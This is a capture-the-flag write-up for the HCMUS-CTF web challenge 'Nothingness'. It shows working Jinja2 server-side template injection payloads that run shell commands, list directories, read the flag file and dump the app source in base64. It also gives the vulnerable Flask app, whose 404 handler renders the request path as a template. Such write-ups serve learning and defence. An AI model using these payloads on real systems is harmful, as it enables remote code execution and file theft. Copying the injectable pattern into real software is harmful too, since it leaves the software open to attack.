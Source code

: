 ## Nothingness (50 points)

#### Solved by Fluoxetine

```
I just leaked this website from HCMUS-CTF, but seem like it's under construction

61.28.237.24 30103

authors: Em0n
```

![](image0.png)
![](image1.png)
![](image2.png)
![](image3.png)
![](image4.png)
![](image5.png)
![](image6.png)
![](image7.png)

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen('ls').read()}}{%endif%}{%endfor%}
__pycache__ app.py requirements.txt

{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen('ls /').read()}}{%endif%}{%endfor%}
bin boot dev etc flag_HKOOS2lrdD home lib lib64 media mnt opt proc root run sbin source srv sys tmp usr var

{{ get_flashed_messages.__globals__.__builtins__.open("/flag_HKOOS2lrdD").read() }}
HCMUS-CTF{404_teMpl4t3_1njEctIon}

{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen('base64 app.py>a').read()}}{%endif%}{%endfor%}
{{ get_flashed_messages.__globals__.__builtins__.open("a").read() }}
ICAKZnJvbSBmbGFzayBpbXBvcnQgRmxhc2sKZnJvbSBmbGFzayBpbXBvcnQgcmVxdWVzdApmcm9tIGZsYXNrIGltcG9ydCByZW5kZXJfdGVtcGxhdGVfc3RyaW5nCgphcHAgPSBGbGFzayhfX25hbWVfXykKCkBhcHAuZXJyb3JoYW5kbGVyKDQwNCkKZGVmIGhlbGxvKGUpOgogICAgcmV0dXJuIHJlbmRlcl90ZW1wbGF0ZV9zdHJpbmcoZic8aDE+U29ycnkge3JlcXVlc3QucGF0aH0gaXMgdW5kZXIgY29uc3RydWN0aW9uLiBQbGVhc2UgdHJ5IGFnYWluIGxhdGVyPC9oMT4nKSwgNDA0CgppZiBfX25hbWVfXyA9PSAnX19tYWluX18nOgogICAgYXBwLnJ1bihwb3J0PTUwMDAp

{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen('base64 requirements.txt>a').read()}}{%endif%}{%endfor%}
{{ get_flashed_messages.__globals__.__builtins__.open("a").read() }}
Zmxhc2s=
```

`app.py`:

```py
from flask import Flask
from flask import request
from flask import render_template_string

app = Flask(__name__)

@app.errorhandler(404)
def hello(e):
    return render_template_string(f'<h1>Sorry {request.path} is under construction. Please try again later</h1>'), 404

if __name__ == '__main__':
    app.run(port=5000)
```

`requirements.txt`:

```
flask
```

**Flag:** `HCMUS-CTF{404_teMpl4t3_1njEctIon}`

### References

- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---remote-code-execution](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---remote-code-execution)
